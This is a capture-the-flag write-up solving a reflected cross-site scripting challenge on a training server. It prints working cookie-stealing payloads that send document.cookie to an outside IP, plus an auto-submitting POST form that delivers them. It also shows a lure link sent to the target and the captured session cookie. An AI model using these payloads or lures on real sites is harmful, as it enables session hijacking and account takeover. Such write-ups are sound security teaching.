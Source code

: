 # Cookie Monster

## Web: 200 Points

## Challenge

A skid hacker who's out to get me is working on a forum. Right now the only accessible page is
http://challenges.laptophackingcoffee.org:1337/dev.php.

We've found his admin panel at
http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
and we know he's using cookies for authentication.

Steal his cookies and access the admin panel to delete the site.

He's on the LHC discord server as **@Elite Hacker#2489**. He's expecting his buddy Jerry to send him a link with some documentation. Maybe you can use that information somehow?

[ [Start](http://challenges.laptophackingcoffee.org:1337/dev.php) ]

Note: The server resets to default every 30 minutes. All progress will be lost.

## Solution

Open the [dev][1] page. There is a message text field and a submit button. Send some input like `hello world`:

![screenshot1](screenshot1.png)

Try `<h1>hello world</h1>`:

![screenshot2](screenshot2.png)

Is JavaScript allowed? Try `<script>alert("XSS")</script>`. Yes, JavaScript is allowed:

![screenshot3](screenshot3.png)

The webpage does not properly sanitize user input. This makes the page vulnerable to [cross-site scripting (XSS)][2].

Is this a [stored XSS][3] vulnerability? Check if the value entered persists across sessions by opening the [dev][1] page in another window. Notice that any input entered in one session does not carry over to another. Therefore, this is not a stored XSS vulnerability. Instead it is a [reflected XSS][4] vulnerability, where the user's input is immediately returned by the web application.

Inspect how the webpage accepts user input. Inspect the page using Chrome. Click the **Network** tab, type in some input like `hello world`, and click the **Submit** button. Click the **dev.php** item in the requests list and examine the details:

```
Request URL: http://challenges.laptophackingcoffee.org:1337/dev.php
Request Method: POST
Form Data: message=hello+world
```

The webpage used the POST request method and sent a `message` variable with the user's input of `hello world`. This is also confirmed in the form's html:

```html
<form action="/dev.php" method="post">
  Message: <input type="text" name="message"><br>
  <input type="submit" value="Submit">
</form>
```

To take advantage of this vulnerability, a web server is needed. Open up Google Cloud Platform and spin up a free virtual machine. 

```
******************************************
TODO: Add google cloud set up instructions
******************************************
https://cloud.google.com/sdk/docs/downloads-snap
Install google-cloud sdk:
$ snap install google-cloud-sdk --classic
$ gcloud init
```

Install Apache web server:

```
******************************************
TODO: Add apache install instructions
******************************************
```

Now Apache is installed, paste the VM's public IP into the browser and load the default web page. 

Load up the python simple server on port 8888:
```
$ python3 -m http.server 8888
```

Now try to send it a cookie by visiting a url like this:
```
http://0.0.0.0:8888/?c=THIS_IS_A_COOKIE
```

Boom cookie sent!
```
64.44.81.92 - - [25/Jun/2020 04:35:27] "GET /?c=THIS_IS_A_COOKIE HTTP/1.1" 200 -
```

```html
<script>
image = new Image(); 
image.src='http://34.70.24.215:8888/?c='+document.cookie;
</script>
```

```
64.44.81.92 - - [25/Jun/2020 04:37:26] "GET /?c=cookie=THIS_IS_COOKIE_MONSTER HTTP/1.1" 200 -
```

Since the vulnerable webpage accepts user input via a POST request, the XSS attack will need to initiate a POST request with the proper payload in order to steal Elite Hacker's cookie. Following the suggestion in [PortSwigger's blog][5], create a webpage called `cookie.html` that will deliver this payload:

```html
<html>
   <body>
      <h1>Hello Cookies!!</h1>
      <form 
        name=MyForm 
        action=http://challenges.laptophackingcoffee.org:1337/dev.php 
        method=post>
         <input type=hidden name=message value="<script>
            image = new Image(); 
            image.src='http://34.70.24.215:8888/?c='+document.cookie;
            </script>">
      </form>
      <script>
         document.MyForm.submit();
      </script>
   </body>
</html>
```

Verify that the page works by visiting the url: 
```
http://0.0.0.0/cookie.html
```

It works. Now wake up Elite Hacker, mention Jerry, and send the malicious link:

![screenshot4](screenshot4.png)

Wait for Elite Hacker to click. Monitor the python server for activity:

```
z@test-lab:/var/www/html$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
64.44.81.92 - - [25/Jun/2020 02:41:06] "GET /?c=_ga=GA1.2.1731152959.1592886096 HTTP/1.1" 200 -
35.237.149.50 - - [25/Jun/2020 02:41:54] "GET /?c=lhcxssadmin=true HTTP/1.1" 200 -
```

Just like that. Cookie captured: `lhcxssadmin=true`. Now visit the [admin][6] page. Enter this cookie manually via Chrome dev tools. Refresh:

```
H4X1N6 F0RU|V| D3\/

Your flag is LHC{P05t3d_4_an_xSs}
```

## Failed Attempts

XMLHttpRequest:
```
Access to XMLHttpRequest at 'http://challenges.laptophackingcoffee.org:1337/dev.php' from origin 'http://34.70.24.215' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

Pastebin:
```html
<script>
// 1. api_dev_key - which is your unique API Developers Key.
// 2. api_option - set as paste, this will indicate you want to create a new paste.
// 3. api_paste_code - this is the text that will be written inside your paste.
let data = {api_dev_key: "ef18a18477ac0ba892c5ecef221bc779", api_option: "paste", api_paste_code: "hello world"};
fetch("https://pastebin.com/api/api_post.php", {
  method: "POST", 
  body: JSON.stringify(data)
}).then(res => {
  console.log("Request complete! response:", res);
});
</script>
```

## Resources

* https://www.w3schools.com/jsref/met_node_appendchild.asp
* https://stackoverflow.com/questions/6396101/pure-javascript-send-post-data-without-a-form
* https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
* https://www.youtube.com/watch?v=HbzI3ubOos0
* https://owasp.org/www-community/Types_of_Cross-Site_Scripting
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://www.youtube.com/watch?v=LrjpcR-IJwY
https://ubuntu.com/tutorials/install-and-configure-apache#2-installing-apache
https://www.youtube.com/watch?v=fMqFxV_0-DQ
https://cloud.google.com/free/
https://cloud.google.com/sdk/docs/downloads-snap

[1]:http://challenges.laptophackingcoffee.org:1337/dev.php
[2]:https://en.wikipedia.org/wiki/Cross-site_scripting
[3]:https://owasp.org/www-community/attacks/xss/#stored-xss-attacks
[4]:https://owasp.org/www-community/attacks/xss/#reflected-xss-attacks
[5]:https://portswigger.net/blog/exploiting-xss-in-post-requests
[6]:http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
[7]:https://portswigger.net/web-security/cross-site-scripting/reflected